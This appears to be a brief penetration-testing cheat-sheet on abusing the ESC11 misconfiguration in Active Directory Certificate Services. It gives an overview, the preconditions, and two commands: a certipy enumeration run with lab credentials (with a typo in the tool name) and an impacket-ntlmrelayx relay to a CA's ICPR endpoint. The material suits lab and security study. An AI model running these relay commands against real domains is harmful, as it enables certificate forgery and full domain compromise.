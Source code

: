 # General Overview: 

Exploiting ESC11 in AD CS involves abusing certificate templates that allow enrollment for certificates with insufficient security controls, enabling attackers to forge certificates that can impersonate privileged accounts. This can lead to unauthorized access and potential full domain compromise, especially when combined with weak certificate validation or mapping practices.

## Requirements:

- Enforce Encryption for Requests: Disabled
- Encryption is not enforced for ICPR requests and Request Disposition is set to Issue

# Abusing ESC11  Certificate Templates

## Certipy:
- cetipy-ad find -username afsimmons@megacorpone.com -p Spawn123! -dc-ip 172.21.1.5 -stdout
- impacket-ntlmrelayx -t rpc://172.21.1.100 -rpc-mode ICPR -icpr-ca-name megacorp-DC-CA -smb2support